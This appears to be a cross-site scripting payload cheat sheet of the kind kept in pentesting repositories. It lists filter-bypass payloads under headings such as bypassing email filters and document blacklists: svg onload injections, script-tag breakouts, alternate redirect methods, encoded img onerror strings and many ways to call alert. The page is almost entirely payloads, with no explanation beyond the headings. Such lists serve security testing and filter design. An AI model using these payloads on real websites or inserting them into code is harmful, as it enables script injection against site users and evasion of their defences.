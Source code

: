 ### Bypass email filter

```javascript
"><svg/onload=confirm(1)>"@x.y
```

### Bypass document blacklist

```javascript
<div id = "x"></div><script>alert(x.parentNode.parentNode.parentNode.location)</script>
```

### Bypass using javascript inside a string

```javascript
<script>
foo="text </script><script>alert(1)</script>";
</script>
```

### Bypass using an alternate way to redirect

```javascript
location="http://google.com"
document.location = "http://google.com"
document.location.href="http://google.com"
window.location.assign("http://google.com")
window['location']['href']="http://google.com"
```

### Bypass using an alternate way to execute an alert

```javascript
write`XSSed!`
writeln`XSSed!`
writeln`<img/src/o&#78error=alert&lpar;1)&gt;`
write('\74img/src/o\156error\75alert\501\51\76')
"><svg/onload=writeln('\74img/src/o\156error\75alert\501\51\76')>
"><svg/onload=write('\74img/src/o\156error\75alert\501\51\76')>

window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['confirm'](6)

[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
```
